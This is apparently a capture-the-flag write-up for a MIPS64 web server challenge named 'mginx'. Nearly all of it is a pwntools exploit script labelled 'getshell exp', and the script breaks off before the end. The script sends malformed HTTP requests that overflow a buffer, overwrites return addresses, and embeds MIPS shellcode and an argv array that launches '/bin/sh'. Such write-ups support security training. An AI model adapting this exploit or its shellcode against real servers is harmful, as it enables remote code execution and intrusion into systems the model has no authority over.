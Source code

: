 get flag!

![t81MpF.png](https://s1.ax1x.com/2020/06/01/t81MpF.png)

getshell exp:

```python
from pwn import *
import sys

context.update(arch='mips',bits=64,endian="big")

def main(host,port=8888):
	global p
	if host:
		p = remote(host,port)
	else:
		# p = process(["qemu-mips64","-g","1234","./mginx"])
		p = process(["qemu-mips64","./mginx"])
		# gdb.attach(p)
		#
	
	req = """GET /index \r
Connection: no\r
Content-Length: 4095
\r\n\r
"""
	req = req.ljust(0xf0,"A")
	
	p.send(req)
	# pause()

	# getshell
	sc = "\x03\xa0\x28\x25\x64\xa5\xf3\x40"
	sc +=  "\x3c\x0c\x2f\x2f\x35\x8c\x62\x69\xaf\xac\xff\xf4\x3c\x0d\x6e\x2f\x35\xad\x73\x68\xaf\xad\xff\xf8\xaf\xa0\xff\xfc\x67\xa4\xff\xf4\x28\x06\xff\xff\x24\x02\x13\xc1\x01\x01\x01\x0c"


	payload = "A"*0xf30
	payload += p64(0x000000012001a250)+p64(0x000000120012400)
	# remain 0x179 byte
	
	payload += p64(0x1200018c4)+"D"*(0x179-8)
	p.send(payload)
	p.recvuntil("404 Not Found :(",timeout=1)	

	req = """GET /index \r
Connection: no\r
Content-Length: 4095
\r\n\r
"""
	req = req.ljust(0xf0,"\x00")
	p.send(req)
	
	payload = "\x00"*0x288
	# argv_ 0x0000000120012800
	argv_ = p64(0x120012820)+p64(0x120012828)+p64(0x120012830)+p64(0)
	argv_ += "sh".ljust(8,'\x00')
	argv_ += "-c".ljust(8,'\x00')
	argv_ += "/bin/sh".ljust(8,'\x00')
	payload += argv_
	payload += "\x00"*(0x800 - len(argv_))
	# fix the chunk
	payload += p64(0) + p64(21)
```